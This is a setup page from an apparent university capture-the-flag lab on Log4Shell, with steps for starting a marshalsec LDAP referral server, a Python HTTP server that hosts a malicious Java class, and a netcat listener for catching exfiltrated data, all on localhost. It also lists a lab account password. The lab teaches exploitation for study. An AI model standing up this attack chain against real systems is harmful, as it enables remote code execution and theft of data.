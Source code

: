```yaml
---
layout: default
title: Setup
nav_order: 6
parent: Project Log4Shell!
grand_parent: Projects
---
```


<div style="text-align:center">
  <span id="setup" style="color: #003057; font-size:36px; font-weight: bold; text-decoration:underline">SETUP</span>
</div>
  
To get setup for the flags, follow the steps carefully below, and be sure you are running each in a separate terminal window as noted. 

You will need switch users to login to log4j user via:
 
```
  Username: log4j  Password: konami-code
```

In the home directory of log4j user, start the container with the start script: 
```bash 
  sudo ./StartContainer.sh
```

Open a new terminal window and go to “Desktop/log4shell/logs”:  
```bash 
  cd Desktop/log4shell/logs
```

Run the following command to view the logs:
```bash 
  tail -f cs6035.log
```

You should now see the tail of the log file from the application running. 

![alt text](/images/logoutput.PNG)

  *****If the logs stop populating, then just stop and restart the tail. This is happening because the data logged gets too large so the log “rolls over” to another file.*******


<span style="font-weight: bold">1. Run the LDAP Server:</span> \
Open a new terminal window and run the following command to set the current directory to “Desktop/log4shell/target”:  
```bash
  cd ~Desktop/log4shell/target
```
Next, start the LDAP server by running:
```bash 
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:4242/#Exploit"
```
You can get the ip address of the vm by running the block below in a terminal
```bash 
  ip addr show
``` 
This outputs the vm’s \<IP:PORT\>
```bash 
  127.0.0.1:4242
```
**It is very important that this matches the port specified in the Malicious server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct.**
You should see the following output:
![alt text](/images/ldapoutput.PNG) 
  
<span style="font-weight: bold">2. Run the Malicious Server:</span> \
Open a new terminal and make sure the active directory is the directory that contains your malicious .class file. For simplicity, we have created “Desktop/log4shell/{flag_no}” for you to work in. <span style="font-weight: bold">Do not leave this directory</span>. Run the server in “Desktop/log4shell/{flag_no}” by the following command:
```bash 
  python3 -m http.server 4242 
``` 
**It is very important that this matches the port specified in the LDAP server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct**
You should see the following output:
![alt text](/images/pythonserveroutput.PNG) 
  
<span style="font-weight: bold">3. Read data that is flowing on the network (This step is required for Flag 2 but is optional for the rest):</span> \
Open a terminal and run:
```bash 
  nc -nlvp <your_desired_port> 
``` 
You should see the following output:
![alt text](/images/nlvp.PNG)
